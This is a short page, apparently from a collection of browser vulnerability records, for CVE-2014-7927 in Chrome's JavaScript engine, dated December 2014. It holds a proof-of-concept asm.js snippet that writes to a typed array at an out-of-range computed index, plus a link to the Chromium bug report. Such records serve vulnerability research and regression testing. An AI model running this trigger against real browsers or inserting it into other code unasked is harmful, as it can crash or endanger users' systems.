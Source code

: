 # CVE-2014-7927

- Date: Dec 2014
- Credit: Christian Holler

## PoC

```javascript
var foo = (function(stdlib, foreign, heap) {
      "use asm";
      var MEM = new stdlib.Uint8Array(heap);
      function foo(x) { MEM[x | 0] *= 0; }
      return {foo: foo};
    })(this, {}, new ArrayBuffer(1)).foo;
foo(-926416896 * 8 * 1024);
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=444695)
